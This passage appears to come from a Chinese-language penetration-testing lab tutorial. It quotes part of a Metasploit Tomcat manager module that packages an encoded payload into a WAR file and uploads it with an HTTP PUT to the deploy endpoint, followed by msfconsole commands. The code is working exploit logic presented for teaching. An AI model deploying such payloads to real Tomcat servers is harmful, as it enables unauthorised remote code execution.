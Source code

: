 ```

    # 生成的 war 包含 payload
    war = p.encoded_war({
        :app_name => app_base,
        :jsp_name => jsp_name,
        :arch => mytarget.arch,
        :platform => mytarget.platform
      }).to_s

    query_str = "?path=/" + app_base

    #
    # UPLOAD
    #
    path_tmp = normalize_uri(datastore['PATH'], "deploy") + query_str
    print_status("Uploading #{war.length} bytes as #{app_base}.war ...")
    res = send_request_cgi({
      'uri'          => path_tmp,
      'method'       => 'PUT',
      'ctype'        => 'application/octet-stream',
      'data'         => war,
    }, 20)
    
    # 判断 res 是否为空，为空则报错
    if (! res)
      fail_with(Failure::Unknown, "Upload failed on #{path_tmp} [No Response]")
    end
    
    # 根据 res.code 状态进行选择
    if (res.code < 200 or res.code >= 300)
      case res.code
      when 401
        print_warning("Warning: The web site asked for authentication: #{res.headers['WWW-Authenticate'] || res.headers['Authentication']}")
      end
      
      # 如果错误，则报出 upload 错误
      fail_with(Failure::Unknown, "Upload failed on #{path_tmp} [#{res.code} #{res.message}]")
    end
```

继续在 msfconsole 中执行下列的命令：

```
# 回到主菜单
back

# 使用相应模块
search tomcat

```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480472752260.png-wm)
